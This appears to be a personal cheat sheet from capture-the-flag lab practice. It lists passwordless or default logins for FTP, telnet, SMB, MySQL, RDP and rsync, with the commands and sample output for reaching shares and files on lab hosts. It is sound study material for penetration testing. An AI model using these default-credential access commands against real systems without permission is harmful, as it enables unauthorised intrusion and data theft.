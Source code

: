 ```yaml
---
title: 'Access by Protocol'
desc: 'Default access and access with tools'
tags: 'ftp,telnet,smbclient,mysql,xfreerdp,rsync'
---
```


# Access by Protocol

Usernames that allows to log without providing a password

* ftp: anonymous

```
ftp anonymous@10.129.235.124
```

* telnet: root

```
# Telnet shows a login interface after connection
$> telnet [ip-address] [port]
$> login: root
Welcome to ...
```

* smbclient: Administrator

```
# 1. List avaible shares (after rejection)
option 1: smbclient -L 10.129.19.148
option 2: smbclient -L 10.129.19.148 --user Administrator
option 3: smbclient -L 10.129.19.148 -U Administrator

$> Password for [WORKGROUP\root]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        WorkShares      Disk      
Reconnecting with SMB1 for workgroup listing.

# Connection with a Share
option A: smbclient -U '%' -N \\\\10.129.142.197\\WorkShares
option B: smbclient \\\\10.129.142.197\\ADMIN$ -U Administrator
```

* mysql: root

```
mysql --host=10.129.187.6 --user=root
```

* xfreerdp: Administrator (Windows Remote Desktop Protocol)

```
xfreerdp /u:Administrator /v:10.129.213.226:3389 
```

* rsync

```
# 1. list the shares
rsync 10.129.223.16::
$> public          Anonymous Share

# 2. access by share
rsync 10.129.223.16::public/

# 3. download resource
rsync 10.129.223.16::public/flag.txt flag.txt
```














